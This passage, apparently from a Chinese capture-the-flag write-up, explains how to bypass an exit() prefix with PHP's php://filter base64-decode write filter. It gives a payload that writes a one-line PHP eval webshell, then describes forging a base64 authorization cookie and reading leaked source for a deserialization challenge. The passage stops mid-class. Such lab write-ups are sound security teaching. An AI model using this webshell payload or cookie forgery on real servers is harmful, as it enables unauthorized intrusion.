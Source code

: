 这里是一个简单的代码审计：

可以上传任意文件，并且可以往文件里面写任何东西，但存在一个限制（在每个文件头都加上了exit），这导致传入的可执行马不能运行，所以这里要绕过exit，让它不生效

（这里还是使用PHP伪协议，向文件写入代码）

可以参考一下P牛的这篇文章：（了解一下base64的原理）

https://www.leavesongs.com/PENETRATION/php-filter-magic.html

由于前面用了//注释了一些东西，要base64正确解码，就必须在payload前面多给3个字符，让他与前面的字符串组成的长度是4的倍数，然后后面传payload

payload:

death=aaaPD9waHAKZXZhbCgkX1BPU1RbJ3NoZWxsJ10pOwo/Pg==&filename=php://filter/write=convert.base64-decode/resource=xxxxxx.php

这样传入的一句话木马就可以生效了，用蚁剑连上去，在服务器根目录发现flag

![JvrHaR.png](https://s1.ax1x.com/2020/05/02/JvrHaR.png)



### 0x02 . 你喜欢甜饼吗

知识点：

**逻辑漏洞（薅羊毛）**

**反序列化（魔术方法的利用）**

1、通过伪造Cookie拿到hint

抓包查看cookie，有个tag参数，base64解码一下：

[![JvrOG6.png](https://s1.ax1x.com/2020/05/02/JvrOG6.png)](https://imgchr.com/i/JvrOG6)

得到：user:guest,permission:false

页面提示是要admin才能访问，将guest改为admin，base64后传进去，发现页面提示没有权限，所以这里再改一下permission，改为true

user:admin,permission:true

base64一下覆盖tag后面的一串，拿到hint

[![JvrbI1.png](https://s1.ax1x.com/2020/05/02/JvrbI1.png)](https://imgchr.com/i/JvrbI1)

访问这个网站：然后F12看到这个提示：

![JvrLPx.png](https://s1.ax1x.com/2020/05/02/JvrLPx.png)

直接访问这个zip，下载得到源码：

```
<?php
/*
你居然找到了源码

惊不惊喜，意不意外

hint: flag在/flag

留下你的姓名。。。。。。。。。。。。。。。。。。。。。。。。。。。。。
*/
header("Content-Type: text/html; charset=utf-8");

class Sea{
   public $d0y0uw4nt;

   function waoooo(){
         echo "<h1>你是否有过黑客梦！！！！！！！！</h1><br/>";
         echo $this;
         echo $this->d0y0uw4nt;
   }
```
